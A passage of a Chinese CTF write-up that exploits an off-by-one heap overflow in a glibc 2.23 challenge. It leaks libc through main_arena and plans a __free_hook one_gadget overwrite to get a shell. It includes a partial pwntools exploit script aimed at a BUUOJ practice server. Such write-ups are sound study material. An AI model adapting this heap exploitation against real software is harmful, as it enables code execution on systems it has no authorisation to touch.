 这里插一条笔记：
> 如果使用free函数释放紧邻top chunk下面的大于最大fastbin容纳范围的chunk，当这个chunk的大小加上top chunk的大小大于FASTBIN_CONSOLIDATION_THRESHOLD（65536）时会触发malloc_consolidate()函数将所有的fastbin清空并归位到unsorted bins中。详情请见[源码](https://elixir.bootlin.com/glibc/glibc-2.23/source/malloc/malloc.c)第4054~4076行。调试中无意发现，在此记录，与本题关系不大。

经过调试验证，证实上面的思路是正确的。我们成功通过off by one漏洞获取到一个chunk_info的读写权限。
![](https://img-blog.csdnimg.cn/0104512ec7b74742b6584e81d26c8015.png)
![](https://img-blog.csdnimg.cn/315403dbf3594750991e6053479fbac4.png)
那么，后面的思路也就清晰了：将后面一个chunk_info的可读写空间调大，获取到#4中的main_arena地址，进而计算libc基地址。然后直接将#3的可写地址改为__free_hook地址，写入one_gadget，再调用free函数即可getshell。
![](https://img-blog.csdnimg.cn/f8373cceb674431d88068c1a464b4e90.png)

```python
from pwn import *
from LibcSearcher import *

context(arch='amd64', log_level='debug')

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27833)
one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
elf = ELF('./pwn')


def create(size, content):
    io.sendlineafter(b'Your choice :', b'1')
    io.sendlineafter(b'Size of Heap : ', str(size).encode())
    io.sendafter(b'Content of heap:', content)


def edit(index, content):
    io.sendlineafter(b'Your choice :', b'2')
    io.sendlineafter(b'Index :', str(index).encode())
    io.sendafter(b'Content of heap : ', content)


def show(index):
    io.sendlineafter(b'Your choice :', b'3')
    io.sendlineafter(b'Index :', str(index).encode())


def delete(index):
    io.sendlineafter(b'Your choice :', b'4')
    io.sendlineafter(b'Index :', str(index).encode())


create(0x48, b'colin')  # heaparray[0]
create(0x48, b'colin')  # heaparray[1]
create(0x48, b'colin')  # heaparray[2]
edit(0, cyclic(0x48) + b'\x91')
delete(1)
create(0x68, b'colin')  # heaparray[1]
edit(1, cyclic(0x40) + p64(0x51) + p64(0x21) + p64(0x100))  # change the readable size of heaparray[2]
create(0x88, b'colin')  # heaparray[3]
create(0x68, b'colin')  # heaparray[4]
delete(3)
payload = cyclic(0x70)
edit(2, payload)
show(2)
io.recvuntil(b'aabcaab')
main_arena = u64(io.recv(6) + b'\x00\x00') - 88
__malloc_hook = main_arena - 0x10
```